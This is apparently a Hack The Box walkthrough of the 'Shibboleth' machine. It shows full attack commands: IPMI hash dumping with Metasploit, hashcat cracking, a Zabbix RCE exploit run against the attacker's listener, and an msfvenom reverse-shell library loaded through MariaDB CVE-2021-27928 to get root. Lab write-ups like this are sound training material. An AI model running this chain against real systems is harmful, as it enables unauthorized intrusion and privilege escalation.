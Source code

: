 ```yaml
---
layout: single
title: Shibolleth - Hack The Box
date: 2022-04-25
excerpt: "Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained."
header:
  teaser: /assets/img/shibolleth/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - DNS
    - UDP
    - IPMI
    - Zabbix
    - MariaDB
    - RCE
    - CVE-2021-27928
---
```


![](/assets/img/shibolleth/cover.png)

## Synopsis

Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained.

## Portscan

```bash
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Did not follow redirect to http://shibboleth.htb/
```

## Reconaissance

### HTTP

added new shibboleth.htb into hosts file, because only port 80 is open, i use feroxbuster to scan the directory.

![](/assets/img/shibolleth/1.png)

feroxbuster result:

```bash
 🎯  Target Url            │ http://shibboleth.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET     1323l     4114w    59474c http://shibboleth.htb/
301      GET        9l       28w      317c http://shibboleth.htb/assets => http://shibboleth.htb/assets/
301      GET        9l       28w      316c http://shibboleth.htb/forms => http://shibboleth.htb/forms/
403      GET        9l       28w      279c http://shibboleth.htb/server-status
```

inside /get we will see two files

![](/assets/img/shibolleth/2.png)

README.txt

```
Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```

contact.php

```
Unable to load the "PHP Email Form" Library!
```

it seems that these two files are the defaults of the template, continuing the process for fuzzing sub domain with `ffuf`

```bash
ffuf -c -u http://shibolleth.htb -w /usr/share/seclists/Discover/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.shibolleth.htb" -fw 18
```

![](/assets/img/shibolleth/3.png)

added new sub domains into hosts file again, accessing this page http://zabbix.shibboleth.htb/ will find login page

![](/assets/img/shibolleth/4.png)

find a lot of exploit script using tools `searchsploit`

![](/assets/img/shibolleth/5.png)

basically what is zabbix, in short zabbix is open source monitoring software tool, including networks, servers, VM, and cloud services. Zabbix also provides monitoring metrics such as network utilization, CPU load and disk space consumpution.

already tried admin:admin on login page without any luck, because to carry out the exploitation requires credentials. Back to the initial stage of scanning on UDP using nmap.

```
nmap -sU $ip
```

result of nmap 

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

according on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) we able to dump hash from rmcp using metasploit.

in metasploit we will use the ipmi module with following setup:

```
use scanner/ipmi/ipmi_dumphashes
set output_hashcat_file yes
set rhost ip-shibolleth
```

execute command run will obtain hashes administrator

![](/assets/img/shibolleth/8.png)

that hash use algorithm SHA1 then run `hashcat` with modul 7300

```
hashcat -a 0 -m 7300 hash /usr/share/wordlists/rockyou.txt
```

![](/assets/img/shibolleth/9.png)

```
Administrator:ilovepumkinpie1
```

back to zabbix and use this credentials

![](/assets/img/shibolleth/10.png)

as you can see we able to logged in, now this zabbix version is 5.0 with affected of RCE vulnerability.
you can grab public exploit in [here](https://www.exploit-db.com/exploits/50816)

execute this command below will gain acess into system

```python
python 50816.py http://monitoring.shibboleth.htb/ Administrator ilovepumkinpie1 10.10.14.8 9000
```

![](/assets/img/shibolleth/11.png)

## Privilege Escalation

password reuse for user ipmi-svc, and on enumeration i managed to find the config file

![](/assets/img/shibolleth/12.png)

read the file configuration and find the credentials for Maria Database

```bash
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=

DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix

### Option: DBPassword
DBPassword=bloooarskybluh

### Option: DBSocket
# DBSocket=
### Option: DBPort
```

mysql running locally, lets dump it

![](/assets/img/shibolleth/13.png)

get the information from table users

![](/assets/img/shibolleth/14.png)

thats hash didnt show me the way, so the thing is we had to exploit the maria db

![](/assets/img/shibolleth/15.png)

this maria db version affected of CVE-2021-27928, you can read the poc in [here](https://github.com/Al1ex/CVE-2021-27928).

create the payload and upload into target in folder /tmp

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9002 -f elf-so -o CVE-2021-27928.so
```

makesure listener ready and execute command below will lead you into root system

```
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so"';
```

![](/assets/img/shibolleth/16.png)

### REFERENCESS
```text
https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi
http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm
https://netsec.ws/?p=337
https://hashcat.net/wiki/doku.php?id=example_hashes
```